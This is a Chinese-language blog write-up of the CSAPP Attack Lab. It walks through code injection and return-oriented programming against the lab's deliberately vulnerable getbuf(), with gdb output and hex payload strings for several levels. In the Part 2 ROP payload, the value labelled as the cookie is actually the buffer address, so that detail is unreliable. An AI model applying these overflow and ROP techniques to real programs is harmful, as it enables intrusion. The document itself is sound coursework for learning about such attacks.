 ```yaml
---
layout: post
title: "「CSAPP Lab」缓冲区溢出实验"
subtitle: "Attack Lab"
date: 2019-1-23
author: "ZingLix"
header-img: "img/post-36.jpg"
catalog: true
tags:
  - CSAPP-LAB
---
```


> Lab Version: 1/11/16
>
> Cookie: 0x59b997fa

## 缓冲区溢出

缓冲区溢出是指类似于 `scanf` 的函数，输入到一个字符数组中并不会检查溢出，所以用户输入的代码会影响到字符数组以外的内存空间，溢出的那部分可能就会产生一些意想不到的结果。这个实验就是展现缓冲区溢出的结果。

## Part 1

如下是每次都会运行的函数，其中 `getbuf()` 是一个存在缓冲区溢出漏洞的函数，实验目标就是修改程序运行行为。

```
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

### Level 1

这个 Level 要求让程序运行 `getbuf` 后不返回至 `test()` 而是转而运行另一函数 `touch1()`。

先对这几个函数反汇编进行观察。

```
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

从中可以看到 `getbuf` 申请了 0x28 个字节的栈空间，那么从第 0x29 个字节开始就是返回地址。而我们输入四十个字符以后就会溢出，影响到返回地址的内容。所以我们只要输入的第 41 个字节开始是 `touch1` 的地址就可以让它返回时获得另一个函数的地址，从而跳转到我们所攻击的函数，从上面可以看到是 `0x4017c0`。

所以答案如下，前 40 个随意构造。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
C0 17 40
```

![](/img/in-post/CSAPP-Lab/3-1.png)

### Level 2

这回要做的是让程序能够执行 `touch2()` 并且还能够将 cookie 作为参数传递给它。

我们能够输入代码的地方就是缓冲区内的一部分，所以思路就是让 getbuf 返回时返回到我们输入的代码地址处，即缓冲区位置，代码负责准备参数然后返回到 `touch2()` 处。

```
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
=> 0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
(gdb) print (void *)$rsp
$3 = (void *) 0x5561dc78
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   ...
```

得到了缓冲区的位置 `0x5561dc78` 和 `touch2()` 的开始位置 `0x4017ec`，并且参数用 edi 传入。所以我们要注入的代码是

```
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi ;cookie值
   7:   68 ec 17 40 00          pushq  $0x4017ec        ;返回地址
   c:   c3                      retq
```

转换成二进制就得到了答案

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```

![](/img/in-post/CSAPP-Lab/3-2.png)

### Level 3

这一关的要求与上关类似，只是要求传递参数变为字符串。通过反汇编 `touch3` 可以看到参数依旧由 rdi 传递，所以思路就是手动先将 cookie 转成字符串放入我们输入的代码，然后计算出其地址，传入 rdi，之后与 Level 2 类似，通过压栈改变返回地址从而执行 `touch3`。

答案如下，其中最后一行即为 cookie 值的字符串形式。

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![](/img/in-post/CSAPP-Lab/3-3.png)

## Part 2

第二部分比起第一部分采用了栈随机化等手段不再能执行栈上代码，所以之前的方法都会失效，但是溢出仍会导致问题。

```
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```

以这样一段代码为例，如果从每句代码中间开始运行，比如跳转到中间那么下一句会是 `48 89 c7`，这段代码意味着 `movq %rax, %rdi`。这部分代码存在于代码段所以一定能正常运行，所以通过改变返回地址到代码段中精心挑选的地方就仍能运行我们的攻击代码。

### Level 2

与上一部分的 Level 2 的目标一样，题目中给到我们的可用指令中能修改寄存器的只有 `movq` 和 `popq`，且只用两句。通过直接修改返回地址就可以跳转到 `touch2`，所以这两句目标是将返回值放入 rdi。然后我们能够修改的是栈段内容，所以思路很清楚，先 pop 到某一寄存器再 mov 到 rdi。

```
00000000004019a7 <addval_219>:
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3

00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3
```

符合条件的是这样两个函数，`58 90 c3` 完成了 `popq %rax`，`48 89 c7 (90) c3` 完成了 `movq %rax, %rdi`。攻击代码也就显而易见了。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00   //返回至 popq 处
78 dc 61 55 00 00 00 00   //cookie 进栈等待 pop
c5 19 40 00 00 00 00 00   //返回至 movq 处
ec 17 40 00 00 00 00 00   //返回至 touch2 处
```

![](/img/in-post/CSAPP-Lab/3-4.png)

### Level 3

和上一部分的 Level 3 一样的要求，但是在指导中居然疯狂劝退。。。

说实话，这一部分真的恶心，还得自己去找对应的二进制，用好多个构造出一个目标代码，但是前面实验已经相当清晰的展现了整个缓冲区溢出攻击的过程，最后这个。。。看上去就很不是很想做了，感觉的确花的时间也并不能学到太多东西，所以接受劝退，等以后哪天兴起再填坑吧 :smirk:
